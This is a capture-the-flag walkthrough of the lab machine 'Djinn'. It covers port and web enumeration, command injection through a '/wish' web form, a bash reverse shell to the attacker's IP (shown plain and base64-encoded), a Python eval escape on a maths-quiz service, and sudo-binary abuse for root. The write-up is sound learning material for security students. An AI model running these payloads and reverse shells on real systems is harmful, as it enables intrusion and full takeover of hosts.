



**Vulnerable System**: Djinn
============================

**Operating System**: Ubuntu 18.04

**Kernel**: 4.15.0

Methodology
-----------

-   Host Discovery (netdiscover)

-   Port Scanning (nmap)

-   FTP Enumeration (ftp)

-   Port 1337 Enumeration (nc)

-   Web Port Enumeration (gobuster, browser)

-   Low Privilege Exploitation (Website Code Injection, bash, base64, nc)

-   Privilege Escalation Route 1 (python eval function, nc)

-   Privilege Escalation Route 2 (man, file, cat, strings, uncompyle6)

Reconnaissance
--------------

### Host Discovery (Netdiscover)

lifesfun:\~/vulnhub/djinn\# netdiscover -r 192.168.211.0/24

Currently scanning: Finished! \| Screen View: Unique Hosts

16 Captured ARP Req/Rep packets, from 3 hosts. Total size: 960

\____________________________________________________________________________\_

IP At MAC Address Count Len MAC Vendor / Hostname

\-----------------------------------------------------------------------------

192.168.211.1 00:50:56:c0:00:01 6 360 VMware, Inc.

192.168.211.145 00:0c:29:51:a0:46 7 420 VMware, Inc.

192.168.211.254 00:50:56:e6:d6:28 3 180 VMware, Inc.

### Port Scanning (Nmap)

#### All Ports Scan

lifesfun:\~/vulnhub/djinn\# nmap -p- 192.168.211.145

Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-01 01:30 EST

Nmap scan report for 192.168.211.145

Host is up (0.00081s latency).

Not shown: 65531 closed ports

PORT STATE SERVICE

21/tcp open ftp

22/tcp filtered ssh

1337/tcp open waste

7331/tcp open swx

MAC Address: 00:0C:29:51:A0:46 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 15.29 seconds

#### Aggressive, Version and Default Script Scan.

lifesfun:\~/vulnhub/djinn\# nmap -A -sV -sC -p 21,22,1337,7331 192.168.211.145

Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-01 01:33 EST

Nmap scan report for 192.168.211.145

Host is up (0.00088s latency).

PORT STATE SERVICE VERSION

21/tcp open ftp vsftpd 3.0.3

\| ftp-anon: Anonymous FTP login allowed (FTP code 230)

\| -rw-r--r-- 1 0 0 11 Oct 20 23:54 creds.txt

\| -rw-r--r-- 1 0 0 128 Oct 21 00:23 game.txt

\|_-rw-r--r-- 1 0 0 113 Oct 21 00:23 message.txt

\| ftp-syst:

\| STAT:

\| FTP server status:

\| Connected to ::ffff:192.168.211.146

\| Logged in as ftp

\| TYPE: ASCII

\| No session bandwidth limit

\| Session timeout in seconds is 300

\| Control connection is plain text

\| Data connections will be plain text

\| At session startup, client count was 1

\| vsFTPd 3.0.3 - secure, fast, stable

\|_End of status

22/tcp filtered ssh

1337/tcp open waste?

\| fingerprint-strings:

\| NULL:

\| \___\_ \____\_ \_

\| \___\| \_\_ \_ \_ \_\_ \__\_ \__\_ \|\_ \_(_)\_ \_\_ \__\_ \__\_

\| \\x20/ \_ \\x20 \| \| \| \| '\_ \` \_ \\x20/ \_ \\n\| \|_\| \| (_\| \| \| \|
\| \| \| \__/ \| \| \| \| \| \| \| \| \| \__/

\| \____\|__,_\|_\| \|_\| \|_\|___\| \|_\| \|_\|_\| \|_\| \|_\|___\|

\| Let's see how good you are with simple maths

\| Answer my questions 1000 times and I'll give you your gift.

\| '+', 9)

\| RPCCheck:

\| \___\_ \____\_ \_

\| \___\| \_\_ \_ \_ \_\_ \__\_ \__\_ \|\_ \_(_)\_ \_\_ \__\_ \__\_

\| \\x20/ \_ \\x20 \| \| \| \| '\_ \` \_ \\x20/ \_ \\n\| \|_\| \| (_\| \| \| \|
\| \| \| \__/ \| \| \| \| \| \| \| \| \| \__/

\| \____\|__,_\|_\| \|_\| \|_\|___\| \|_\| \|_\|_\| \|_\| \|_\|___\|

\| Let's see how good you are with simple maths

\| Answer my questions 1000 times and I'll give you your gift.

\|\_ '+', 7)

7331/tcp open http Werkzeug httpd 0.16.0 (Python 2.7.15+)

\|_http-server-header: Werkzeug/0.16.0 Python/2.7.15+

\|_http-title: Lost in space

MAC Address: 00:0C:29:51:A0:46 (VMware)

Warning: OSScan results may be unreliable because we could not find at least 1
open and 1 closed port

Device type: general purpose

Running: Linux 3.X\|4.X

OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4

OS details: Linux 3.2 - 4.9

Network Distance: 1 hop

Service Info: OS: Unix

TRACEROUTE

HOP RTT ADDRESS

1 0.88 ms 192.168.211.145

OS and Service detection performed. Please report any incorrect results at
https://nmap.org/submit/ .

Nmap done: 1 IP address (1 host up) scanned in 105.73 seconds

### FTP Enumeration (ftp)

root\@lifesfun:\~/vulnhub/djinn\# ftp 192.168.211.145

Connected to 192.168.211.145.

220 (vsFTPd 3.0.3)

Name (192.168.211.145:root): anonymous

331 Please specify the password.

Password:

230 Login successful.

Remote system type is UNIX.

Using binary mode to transfer files.

ftp\> ls

200 PORT command successful. Consider using PASV.

150 Here comes the directory listing.

\-rw-r--r-- 1 0 0 11 Oct 20 23:54 creds.txt

\-rw-r--r-- 1 0 0 128 Oct 21 00:23 game.txt

\-rw-r--r-- 1 0 0 113 Oct 21 00:23 message.txt

226 Directory send OK.

ftp\> get creds.txt

local: creds.txt remote: creds.txt

200 PORT command successful. Consider using PASV.

150 Opening BINARY mode data connection for creds.txt (11 bytes).

226 Transfer complete.

11 bytes received in 0.00 secs (122.0703 kB/s)

ftp\> get game.txt

local: game.txt remote: game.txt

200 PORT command successful. Consider using PASV.

150 Opening BINARY mode data connection for game.txt (128 bytes).

226 Transfer complete.

128 bytes received in 0.00 secs (1.7439 MB/s)

ftp\> get message.txt

local: message.txt remote: message.txt

200 PORT command successful. Consider using PASV.

150 Opening BINARY mode data connection for message.txt (113 bytes).

226 Transfer complete.

113 bytes received in 0.00 secs (1.0463 MB/s)

ftp\> exit

221 Goodbye.

Nothing interesting was found in FTP.

### Port 1337 Enumeration (nc)

lifesfun:\~\# nc -nv 192.168.211.145 1337

(UNKNOWN) [192.168.211.145] 1337 (?) open

\___\_ \____\_ \_

/ \___\| \_\_ \_ \_ \_\_ \__\_ \__\_ \|\_ \_(_)\_ \_\_ \__\_ \__\_

\| \| \_ / \_\` \| '\_ \` \_ \\ / \_ \\ \| \| \| \| '\_ \` \_ \\ / \_ \\

\| \|_\| \| (_\| \| \| \| \| \| \| \__/ \| \| \| \| \| \| \| \| \| \__/

\\____\|\\__,_\|_\| \|_\| \|_\|\\___\| \|_\| \|_\|_\| \|_\| \|_\|\\___\|

Let's see how good you are with simple maths

Answer my questions 1000 times and I'll give you your gift.

(5, '+', 9)

\> 14

(3, '\*', 6)

\> 18

(8, '+', 3)

\> 11

### Web Port Enumeration (7331)

#### Gobuster

root\@lifesfun:\~/vulnhub/djinn\# gobuster dir -u http://192.168.211.145:7331 -w
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

===============================================================

Gobuster v3.0.1

by OJ Reeves (\@TheColonial) & Christian Mehlmauer (\@_FireFart_)

===============================================================

[+] Url: http://192.168.211.145:7331

[+] Threads: 10

[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

[+] Status codes: 200,204,301,302,307,401,403

[+] User Agent: gobuster/3.0.1

[+] Timeout: 10s

===============================================================

2019/12/01 01:50:51 Starting gobuster

===============================================================

/wish (Status: 200)

/genie (Status: 200)

===============================================================

2019/12/01 01:58:28 Finished

===============================================================

#### Browser Enumeration

Home Page.

/wish page

This page hints onto possible command injection.

Attempting command injection by typing whoami and pressing Submit.

As can be seen whoami is executed correctly and the current user (www-data) is
displayed in the url.

Low Privilege Exploitation (Nitish)
-----------------------------------

Next, bash reverse one liner from pentestmonkey’s blog can be used to get
reverse shell. (It took a bit of trial and error to see which characters and
commands were being escaped). The shell needed to be encoded with base64 then
decoded with base64 and piped into bash.

Original Reverse Shell:

bash -i \>& /dev/tcp/192.168.211.146/443 0\>&1

Encoded Reverse Shell:

echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIxMS4xNDYvNDQzIDA+JjEK \| base64 -d
\| bash

### Catching & Upgrading Reverse Shell

lifesfun:\~\# nc -nvlp 443

listening on [any] 443 ...

connect to [192.168.211.146] from (UNKNOWN) [192.168.211.145] 43218

bash: cannot set terminal process group (719): Inappropriate ioctl for device

bash: no job control in this shell

www-data\@djinn:/opt/80\$ python -c "import pty; pty.spawn('/bin/bash')"

python -c "import pty; pty.spawn('/bin/bash')"

www-data\@djinn:/opt/80\$ echo \$HOSTNAME

echo \$HOSTNAME

djinn

### Discovering Possible Credentials

www-data\@djinn:/opt/80\$ ls

ls

app.py app.pyc static templates

www-data\@djinn:/opt/80\$ cat app.py

cat app.py

import subprocess

from flask import Flask, redirect, render_template, request, url_for

app = Flask(__name__)

app.secret_key = "key"

CREDS = "/home/nitish/.dev/creds.txt"

www-data\@djinn:/opt/80\$ cat /home/nitish/.dev/creds.txt

cat /home/nitish/.dev/creds.txt

nitish:p4ssw0rdStr3r0n9

Switching to nitish user and obtaining user flag.

www-data\@djinn:/opt/80\$ su nitish

su nitish

Password: p4ssw0rdStr3r0n9

nitish\@djinn:/opt/80\$ cd /home/nitish

cd /home/nitish

nitish\@djinn:\~\$ ls

ls

user.txt

nitish\@djinn:\~\$ cat user.txt

cat user.txt

10aay8289ptgguy1pvfa73alzusyyx3c

Privilege Escalation (Rooute \#1)
---------------------------------

### Enumerating for Possible Escalation Vector.

nitish\@djinn:/opt/80\$ sudo -l

sudo -l

Matching Defaults entries for nitish on djinn:

env_reset, mail_badpass,

secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User nitish may run the following commands on djinn:

(sam) NOPASSWD: /usr/bin/genie

It looks like nitish can run /usr/bin/genie as the user sam.

nitish\@djinn:/opt/80\$ ls -laht /usr/bin/genie

ls -laht /usr/bin/genie

\-rwsr-x--- 1 sam nitish 71K Nov 11 19:09 /usr/bin/genie

Let's check out the help for the executable.

nitish\@djinn:/opt/80\$ genie -h

genie -h

usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish

I know you've came to me bearing wishes in mind. So go ahead make your wishes.

positional arguments:

wish Enter your wish

optional arguments:

\-h, --help show this help message and exit

\-g, --god pass the wish to god

\-p SHELL, --shell SHELL

Gives you shell

\-e EXEC, --exec EXEC execute command

Attempt is made to escalate with genie binary.

nitish\@djinn:\~\$ sudo -u sam /usr/bin/genie -p "/bin/bash"

sudo -u sam /usr/bin/genie -p "/bin/bash"

usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish

genie: error: the following arguments are required: wish

nitish\@djinn:\~\$ sudo -u sam /usr/bin/genie -p "/bin/sh"

sudo -u sam /usr/bin/genie -p "/bin/sh"

usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish

genie: error: the following arguments are required: wish

nitish\@djinn:\~\$ genie whoami -p /bin/bash -e /bin/bash

genie whoami -p /bin/bash -e /bin/bash

nitish\@djinn:/opt/80\$ sudo -u sam genie -p "/bin/bash" -g wish

sudo -u sam genie -p "/bin/bash" -g wish

We've added your wish to our records.

Continue praying!!

\#

As I could not get far with the genie executable I tried searching elsewhere.
Considering that the app.py was written in python, I thought that port 1337 app

might be written in python too. After a little bit of digging I found this
article,
https://ctf-wiki.github.io/ctf-wiki/pwn/linux/sandbox/python-sandbox-escape/ .

First, start with something easy - whoami, as it turns out the program was
running with root privileges.

lifesfun:\~\# nc -nv 192.168.211.145 1337

(UNKNOWN) [192.168.211.145] 1337 (?) open

\___\_ \____\_ \_

/ \___\| \_\_ \_ \_ \_\_ \__\_ \__\_ \|\_ \_(_)\_ \_\_ \__\_ \__\_

\| \| \_ / \_\` \| '\_ \` \_ \\ / \_ \\ \| \| \| \| '\_ \` \_ \\ / \_ \\

\| \|_\| \| (_\| \| \| \| \| \| \| \__/ \| \| \| \| \| \| \| \| \| \__/

\\____\|\\__,_\|_\| \|_\| \|_\|\\___\| \|_\| \|_\|_\| \|_\| \|_\|\\___\|

Let's see how good you are with simple maths

Answer my questions 1000 times and I'll give you your gift.

(6, '+', 1)

\> eval('__import__("os").system("whoami")')

root

Wrong answer

Next the same encoding was used to get a reverse root shell as the initial user
shell.

root\@lifesfun:\~\# nc -nv 192.168.211.145 1337

(UNKNOWN) [192.168.211.145] 1337 (?) open

\___\_ \____\_ \_

/ \___\| \_\_ \_ \_ \_\_ \__\_ \__\_ \|\_ \_(_)\_ \_\_ \__\_ \__\_

\| \| \_ / \_\` \| '\_ \` \_ \\ / \_ \\ \| \| \| \| '\_ \` \_ \\ / \_ \\

\| \|_\| \| (_\| \| \| \| \| \| \| \__/ \| \| \| \| \| \| \| \| \| \__/

\\____\|\\__,_\|_\| \|_\| \|_\|\\___\| \|_\| \|_\|_\| \|_\| \|_\|\\___\|

Let's see how good you are with simple maths

Answer my questions 1000 times and I'll give you your gift.

(6, '+', 9)

\> eval('__import__("os").system("echo
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIxMS4xNDYvNDQzIDA+JjEK \| base64 -d \|
bash")')

### Catching Reverse Shell

lifesfun:\~\# nc -nvlp 443

listening on [any] 443 ...

connect to [192.168.211.146] from (UNKNOWN) [192.168.211.145] 46628

bash: cannot set terminal process group (20312): Inappropriate ioctl for device

bash: no job control in this shell

root\@djinn:/\# whoami

whoami

root

### Root Flag

root\@djinn:/\# cd /root

cd /root

root\@djinn:/root\# ls

ls

lago

proof.sh

root\@djinn:/root\# bash proof.sh

bash proof.sh

TERM environment variable not set.

\_ \_ \_ \_ \_

/ \\ \_ \_\_ \__\_ \_\_ \_ \___(_)\_ \_\_ \_\_ \_\| \| \| \|

/ \_ \\ \| '\_ \` \_ \\ / \_\` \|\_ / \| '\_ \\ / \_\` \| \| \| \|

/ \__\_ \\\| \| \| \| \| \| (_\| \|/ /\| \| \| \| \| (_\| \|_\|_\|_\|

/_/ \\_\\_\| \|_\| \|_\|\\__,_/___\|_\|_\| \|_\|\\__, (_\|_\|_)

\|___/

djinn pwned...

\_________________________________________________________________________\_

Proof: 33eur2wjdmq80z47nyy4fx54bnlg3ibc

Path: /root

Date: Sat Dec 7 02:57:17 IST 2019

Whoami: root

\_________________________________________________________________________\_

By \@0xmzfr

Thanks to my fellow teammates in \@m0tl3ycr3w for betatesting! :-)

root\@djinn:/root\#

\------------------------------------------------------------------------------------------------

Privilege Escalation (Rooute \#2)
---------------------------------

A fellow hacker (cyberbot) told me to check out the man page for the executable,
so let's check it out.

nitish\@djinn:/opt/80\$ man genie

man genie

WARNING: terminal is not fully functional

\- (press RETURN)

man(8) genie man page man(8)

NAME

genie - Make a wish

SYNOPSIS

genie [-h] [-g] [-p SHELL] [-e EXEC] wish

DESCRIPTION

genie would complete all your wishes, even the naughty ones.

We all dream of getting those crazy privelege escalations, this will

even help you acheive that.

OPTIONS

wish

This is the wish you want to make .

\-g, --god

Sometime we all would like to make a wish to god, this option

let you make wish directly to God;

Though genie can't gurantee you that your wish will be heard by

God, he's a busy man you know;

\-p, --shell

Well who doesn't love those. You can get shell. Ex: -p "/bin/sh"

\-e, --exec

Execute command on someone else computer is just too damn fun,

but this comes with some restrictions.

\-cmd

You know sometime all you new is a damn CMD, windows I love you.

SEE ALSO

mzfr.github.io

BUGS

There are shit loads of bug in this program, it's all about finding

one.

AUTHOR

mzfr

1.0 11 November 2019 man(8)

It looks like there's a flag -cmd that was not present in the help output.

When trying to use cmd flag it seems to open a new shell.

nitish\@djinn:/opt/80\$ genie -cmd whoami

genie -cmd whoami

my man!!

\$ whoami

whoami

nitish

\$ exit

exit

You are a noob hacker!!

### Low Privilege Exploitation (sam)

Next, executing it as user sam, gives us shell as sam user.

nitish\@djinn:/opt/80\$ sudo -u sam genie -cmd whoami

sudo -u sam genie -cmd whoami

my man!!

\$ whoami

whoami

sam

Upgrading the shell to TTY.

\$ python -c "import pty;pty.spawn('/bin/bash')"

python -c "import pty;pty.spawn('/bin/bash')"

### Further Enumeration.

sam\@djinn:/home/sam\$ sudo -l

sudo -l

Matching Defaults entries for sam on djinn:

env_reset, mail_badpass,

secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User sam may run the following commands on djinn:

(root) NOPASSWD: /root/lago

Looks like another executable. Let's try and run it.

sam\@djinn:/home/sam\$ sudo /root/lago

sudo /root/lago

What do you want to do ?

1 - Be naughty

2 - Guess the number

3 - Read some damn files

4 - Work

Enter your choice:2

2

Choose a number between 1 to 100:

Enter your number: 39

39

Better Luck next time

Next, let's try and enumerate it.

When trying to enumerate the executable with strings command, permission denied
message popped up.

sam\@djinn:/home/sam\$ strings /root/lago

strings /root/lago

strings: Warning: could not locate '/root/lago'. reason: Permission denied

However, in sam's home directory there is a file called .pyc, which seems to be
a copy of the same binary.

sam\@djinn:/home/sam\$ ls -laht

ls -laht

total 36K

drwxr-x--- 4 sam sam 4.0K Nov 14 21:11 .

\-rw------- 1 root root 417 Nov 14 20:59 .bash_history

drwxr-xr-x 4 root root 4.0K Nov 14 19:50 ..

drwx------ 2 sam sam 4.0K Nov 11 19:28 .cache

\-rw-r--r-- 1 sam sam 0 Nov 7 20:20 .sudo_as_admin_successful

\-rw-r--r-- 1 sam sam 1.8K Nov 7 18:44 .pyc

drwx------ 3 sam sam 4.0K Oct 20 23:36 .gnupg

\-rw-r--r-- 1 root root 220 Oct 20 23:33 .bash_logout

\-rw-r--r-- 1 sam sam 3.7K Oct 20 23:33 .bashrc

\-rw-r--r-- 1 sam sam 807 Oct 20 23:33 .profile

#### Compiled File Enumeration (file, cat, strings, SimpleHTTPServer, uncomyple6)

sam\@djinn:/home/sam\$ file .pyc

.pyc: python 2.7 byte-compiled

sam\@djinn:/home/sam\$ cat .pyc

cat .pyc

�

��]c\@s}ddlmZddlmZddlmZd�Zd�Zd�d�Z �Z

e

d krye

e ��nd

S(

i����(tgetuser(tsystem(trandintcCs dGHdS(NsWorking on it!!
((((s/home/mzfr/scripts/exp.pyt

naughtyboscCsBtdd�}dGHtd�}\|\|kr9td�ndGHdS(Niies"Choose a number between 1 to
100: sEnter your number: s/bin/shsBetter Luck next
time(RtinputR(tnumts((s/hsme/mzfr/scripts/exp.pytguessit

cCs(t�}td�}d\|\|fGHdS(Ns\$Enter the full of the file to read: s!User %s is not
allowed to read %s(RR(tusertpath((s/home/mzfr/scripts/exp.pyt readfiless

cCs/dGHdGHdGHdGHdGHttd��}\|S(NsWhat do you want to do ?s1 - Be naughtys2 - Guess
the numbers3 - Read some damn files4 - WorksEnter your choice:
(tintR(tchoice((s/home/mzfr/scripts/exp.pytoptionsscCs_\|dkrt�nE\|dkr,t�n/\|dkrBt�n\|dkrVdGHndGHdS(Niiiiswork
your ass off!!s"Do something better with your life(RRR

(top((s/home/mzfr/scripts/exp.pytmain's

\__main__N(

tgetpassRtosRtrandomRRRR

R__name__(((s/home/mzfr/scripts/exp.py\<module\>s

From a portion of the output (Enter your number: s/bin/shsBetter Luck next
time(RtinputR(tnumts((s/hsme/mzfr/scripts/exp.pytguessit) it looks like the
number option might be the possible way to obtain the shell.

Next strings command is ran on the .pyc file.

sam\@djinn:/home/sam\$ strings .pyc

strings .pyc

getuser(

system(

randintc

Working on it!! (

/home/mzfr/scripts/exp.pyt

naughtyboi

Choose a number between 1 to 100: s

Enter your number: s

/bin/shs

Better Luck next time(

inputR

numt

/home/mzfr/scripts/exp.pyt

guessit

Enter the full of the file to read: s!

User %s is not allowed to read %s(

usert

path(

/home/mzfr/scripts/exp.pyt

readfiles

What do you want to do ?s

1 - Be naughtys

2 - Guess the numbers

3 - Read some damn filess

4 - Works

Enter your choice: (

intR

choice(

/home/mzfr/scripts/exp.pyt

options

work your ass off!!s"

Do something better with your life(

/home/mzfr/scripts/exp.pyt

main'

\__main__N(

getpassR

randomR

\__name__(

/home/mzfr/scripts/exp.pyt

\<module\>

Furthermore, Python simple web server can be launched from Sam's home directory
and then the file can be downloaded to the host for further enumeration.

sam\@djinn:/home/sam\$ python -m SimpleHTTPServer

python -m SimpleHTTPServer

Serving HTTP on 0.0.0.0 port 8000 ...

192.168.211.146 - - [08/Dec/2019 23:29:26] "GET /.pyc HTTP/1.1" 200 -

192.168.211.146 - - [08/Dec/2019 23:31:43] "GET /.pyc HTTP/1.1" 200 -

lifesfun:\~/vulnhub/djinn\# wget http://192.168.211.145:8000/.pyc

\--2019-12-08 13:01:43-- http://192.168.211.145:8000/.pyc

Connecting to 192.168.211.145:8000... connected.

HTTP request sent, awaiting response... 200 OK

Length: 1749 (1.7K) [application/octet-stream]

Saving to: ‘.pyc’

.pyc 100%[===================\>] 1.71K --.-KB/s in 0s

2019-12-08 13:01:43 (155 MB/s) - ‘.pyc’ saved [1749/1749]

Once downloaded uncompyle6 tool from python was used to decompile the file,
which presented the following:

lifesfun:\~/vulnhub/djinn\# uncompyle6 .pyc

\# uncompyle6 version 3.5.1

\# Python bytecode 2.7 (62211)

\# Decompiled from: Python 2.7.17 (default, Oct 19 2019, 23:36:22)

\# [GCC 9.2.1 20191008]

\# Embedded file name: /home/mzfr/scripts/exp.py

\# Compiled at: 2019-11-07 08:05:18

from getpass import getuser

from os import system

from random import randint

def naughtyboi():

print 'Working on it!! '

def guessit():

num = randint(1, 101)

print 'Choose a number between 1 to 100: '

s = input('Enter your number: ')

if s == num:

system('/bin/sh')

else:

print 'Better Luck next time'

def readfiles():

user = getuser()

path = input('Enter the full of the file to read: ')

print 'User %s is not allowed to read %s' % (user, path)

def options():

print 'What do you want to do ?'

print '1 - Be naughty'

print '2 - Guess the number'

print '3 - Read some damn files'

print '4 - Work'

choice = int(input('Enter your choice: '))

return choice

def main(op):

if op == 1:

naughtyboi()

elif op == 2:

guessit()

elif op == 3:

readfiles()

elif op == 4:

print 'work your ass off!!'

else:

print 'Do something better with your life'

if \__name_\_ == '__main__':

main(options())

As can be seen from the code output Guess the Number part needs string 'num' in
order to provide root shell.

Once the string is entered, the root shell is obtained.

sam\@djinn:/home/sam\$ sudo /root/lago

sudo /root/lago

What do you want to do ?

1 - Be naughty

2 - Guess the number

3 - Read some damn files

4 - Work

Enter your choice:2

2

Choose a number between 1 to 100:

Enter your number: num

num

\# whoami

whoami

root

bash proof.sh

'unknown': I need something more specific.

\_ \_ \_ \_ \_

/ \\ \_ \_\_ \__\_ \_\_ \_ \___(_)\_ \_\_ \_\_ \_\| \| \| \|

/ \_ \\ \| '\_ \` \_ \\ / \_\` \|\_ / \| '\_ \\ / \_\` \| \| \| \|

/ \__\_ \\\| \| \| \| \| \| (_\| \|/ /\| \| \| \| \| (_\| \|_\|_\|_\|

/_/ \\_\\_\| \|_\| \|_\|\\__,_/___\|_\|_\| \|_\|\\__, (_\|_\|_)

\|___/

djinn pwned...

\_________________________________________________________________________\_

Proof: 33eur2wjdmq80z47nyy4fx54bnlg3ibc

Path: /root

Date: Sun Dec 8 02:14:10 IST 2019

Whoami: root

\_________________________________________________________________________\_

By \@0xmzfr

Thanks to my fellow teammates in \@m0tl3ycr3w for betatesting! :-)
